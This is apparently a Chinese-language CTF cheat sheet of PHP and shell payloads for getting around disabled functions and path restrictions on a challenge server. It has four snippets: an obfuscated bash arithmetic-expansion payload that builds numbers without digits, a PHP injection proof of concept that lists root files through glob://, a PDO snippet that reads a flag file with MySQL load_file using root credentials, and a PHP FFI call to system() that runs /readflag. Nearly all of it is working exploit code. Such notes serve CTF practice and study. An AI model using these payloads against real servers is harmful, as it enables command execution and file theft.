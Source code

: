 payload：

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```



# glob遍历文件名

```
#poc
c=?><?php
	$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
```



# mysql的`load_file`读文件

```
try {
  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
}exit(0);
```



# FFI

> FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP的FFI扩展就是一个让你在PHP里调用C代码的技术。

通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
exit();
```

